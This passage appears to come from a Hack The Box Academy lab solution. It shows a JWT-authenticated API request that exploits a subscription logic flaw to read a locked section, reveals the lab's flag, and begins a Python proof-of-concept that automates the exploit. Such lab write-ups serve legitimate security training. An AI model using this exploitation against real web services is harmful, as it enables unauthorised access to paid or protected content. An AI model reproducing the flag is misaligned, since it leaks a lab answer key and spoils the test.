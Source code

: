 ```
      "moduleId": 11,
      "title": "Computer Architecture"
    },
    <SNIP>
  ]
}
```

Additionally, the endpoint `/api/sections/:moduleId/:sectionId` in `src/src/routes/sections-routes.js` allows retrieving a section's content by passing a module's `id` and a section's `id`:

![[HTB Solutions/CWEE/z. images/478a71b925e955e5481be724609a6786_MD5.jpg]]

Students need to send a GET request to `/api/sections/11/148`, where 11 represents the module's `id` and 148 represents the `id` of the desired section within the module where the flag is located. Students will obtain the flag `HTB{4_109!c_6u95_1!f3!}`:

Code: shell

```shell
http GET http://STMIP:STMPO/api/sections/11/148 --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.11]─[htb-ac-413848@htb-rgujdxlutm]─[~]
└──╼ [★]$ http GET http://94.237.59.185:47515/api/sections/11/148 --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY1MWFlZmJjMWIyYTUwZTE0MDYwZmViMiIsIm5hbWUiOiJwZWRhbnQiLCJ1c2VybmFtZSI6InBlZGFudCIsImVtYWlsIjoicGVkYW50QGh0Yi5jb20iLCJyZWdpc3RyYXRpb25EYXRlIjoiMjAyMy0xMC0wMlQxNjoyODo0NC45OTJaIiwiY3ViZXMiOjExMDMwLCJzdWJzY3JpcHRpb24iOnsidXNlcklkIjoiNjUxYWVmYmMxYjJhNTBlMTQwNjBmZWIyIiwic3Vic2NyaXB0aW9uTmFtZSI6IlBsYXRpbnVtIiwiZXhwaXJlc0F0IjoiMjAyNC0wOS0yNlQxNjozMjo1NC43NjhaIn0sImlhdCI6MTY5NjI2ODQ1NCwiZXhwIjoxNjk2MzU0ODU0fQ.9Dnb_ereFQmgQ0tdpEeZx1OfexUsAWoqH1XTa5S7F4Y" | jq

{
  "sectionContent": {
    "_id": "651aef875efbe142f32d83bc",
    "id": 148,
    "moduleId": 11,
    "content": "flag: HTB{4_109!c_6u95_1!f3!}"
  }
}
```

After understanding how to gain a 'Platinum' subscription and unlock modules to view their sections, students are highly encouraged to write a Proof of Concept (PoC) that automates the exploitation of the web app, eventually unlocking all modules and extracting the flag from the section(s) programmatically. One example of such a Python PoC is below:

Code: python

```python
import requests, json, string, random, argparse, re
from urllib.parse import urlsplit
from concurrent.futures import ThreadPoolExecutor

# Globals
STMIP = ""
STMPO = ""
TargetURL = ""
headers = {"Content-Type": "application/json"}

def RegisterUserAccount(name, username, email, password):
    # Register a user account
    registerEndpoint = "/api/users/register"
    postParametersRegister = {
        "name": f"{name}",
        "username": f"{username}",
        "email": f"{email}",
```